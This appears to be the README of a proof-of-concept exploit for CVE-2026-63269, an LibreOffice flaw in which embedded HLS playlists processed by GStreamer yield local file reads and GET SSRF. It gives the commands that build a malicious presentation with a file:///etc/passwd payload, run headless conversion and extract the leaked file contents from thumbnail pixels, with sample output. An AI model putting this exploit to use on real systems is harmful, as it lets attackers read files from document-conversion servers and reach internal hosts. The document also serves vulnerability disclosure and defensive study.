

# CVE-2026-63269

LFI and GET SSRF via GStreamer and HLS playlists

For more information, see:
- https://www.libreoffice.org/security/#:~:text=Addressed%20in%20LibreOffice%2026%2E2%2E5%2F26%2E8%2E0


## Instructions

LibreOffice invokes Gstreamer to generate thumbnails of embedded videos.
We can embed an "fragmented" HLS playlist that contains a raw-RGB fMP4 header chunk, followed by an arbitrary `file://` or `http(s)://` path, leading to LFI and GET SSRF where the leaked contents are shown as RGB values in a thumbnail. This works on headless LibreOffice usecases without special privileges.

Requires `gstreamer1.0-plugins-bad` to be installed (relatively common on desktops).

```sh
./build_hls_fodp.py --payload file:///etc/passwd
soffice --headless --convert-to pdf out.fodp
```

The script currently builds an `.fodp` but it's easily adaptable to `.odp` or likely even to `.odt` via embedding. 

A helper script is provided to extract the contents back from the pixel data:
```sh
$ ./extract_leak.py out.pdf
root::0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

